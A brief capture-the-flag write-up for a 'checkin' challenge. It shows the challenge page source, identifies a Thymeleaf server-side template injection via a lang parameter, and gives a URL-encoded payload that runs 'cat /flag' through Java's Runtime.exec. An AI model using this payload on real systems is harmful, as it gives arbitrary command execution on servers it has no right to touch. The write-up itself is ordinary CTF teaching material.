 # checkin

基于java的服务器端模板注入

 1.View the source code 

```
<!DOCTYPE HTML>
<html lang="en">
<div>
    <h3>MOCSCTF</h3>
</div>
<div>
    <span> Hello, CTFer your language ?</span>
    <!-- /path?lang=xxx -->
</div>
</html>
```

2.you just need to realize it may be a ssti and try ssti payloads it's easy, isn't it?. it's based on thymeleaf.

payload:

```
__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("cat%20/flag").getInputStream()).next()%7d__::.x
```

